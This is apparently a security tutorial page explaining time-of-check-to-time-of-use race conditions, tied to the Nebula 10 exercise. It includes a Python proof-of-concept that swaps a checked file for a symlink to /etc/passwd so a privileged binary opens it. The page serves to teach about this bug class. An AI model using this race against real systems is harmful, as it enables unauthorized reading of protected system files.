 # Race Conditions

## Time of check to time of use

Time of check to time of use \(TOCTOU\) bugs are classes of bugs in which access or permissions to a resource are verified independently of their actual use.  In cases like this it requires something that the user can modify independently of the process.  

A classic example is that of the access to fopen call in C.  Take the following example of a binary which checks we can access a file, say `/home/ubuntu/testfile` and then after a certain amount of time opens it and displays the results:

```python
import os
import subprocess
import time
import sys

os.system('touch /home/ubuntu/testfile')
proc = subprocess.Popen(['/usr/bin/opentestfile', '/home/ubuntu/testfile'], stdout=subprocess.PIPE)
time.sleep(.5) #Do this to ensure the access check runs
os.system('rm /home/ubuntu/testfile')
os.system('ln -s /etc/passwd /home/ubuntu/testfile')
proc.wait()
print proc.communicate()
os.system('rm /home/ubuntu/testfile')
```

This form of race-condition can take many forms from socket communications to file access.

#### References

[Nebula 10 - Exploit Exercises](http://blog.kernelsecurity.es/2013/06/06/nebula-level10-exploiting-access-syscall-toctou-race-condition/)  
[Wikipedia](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use)  
[OWASP - Time of check to time of use](https://www.owasp.org/index.php/Time_of_check,_time_of_use_race_condition)

